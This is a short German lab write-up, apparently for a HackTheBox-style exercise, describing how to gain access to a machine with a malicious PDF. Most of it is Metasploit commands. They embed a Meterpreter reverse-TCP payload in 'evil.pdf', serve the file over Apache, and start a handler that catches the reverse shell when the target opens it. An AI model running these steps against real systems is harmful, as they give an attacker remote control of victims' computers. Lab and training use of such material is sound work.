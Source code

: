 # Writeup Virus.pdf
### Zugriff mittels Schadsoftware

![63e1d1f00c0f5d454ed2ebbb-1 (1)](https://github.com/Netzknoten/HackTheBoxDevelopment/assets/114874531/90c37b2b-4d65-4fbe-96eb-eb199447fb73)


### Erstellen der Maleware und Ausführung des Angriffs.
- Metasploit starten
		
		msfconsole
		use Exploit/windows/fileformat/adobe_pdf_embedded_exe
		set payload/windows/x64/meterpreter/reverse_tcp
		ip addr
		set LHOST <myIP>
		exploit
		
- Schadcode Bereitstellen

		sudo mv /root/.msf4/local/evil.pdf /var/www/html/evil.pdf
		sudo systemctl start apache2.service
		
- Ausführen der Maleware

Gehen sie im Webbrowser und geben sie <ip_address>/evil.pdf ein! 
Dann die Software auf dem Zielrechner speichern. Zurück in Metasploit,
		
		use exploit/multi/handler
		set payload windows/x64/meterpreter/reverse_tcp
		set LHOST <myIP>
		exploit
		
Danach das evil.pdf ausführen und speichern.		
		
		
		
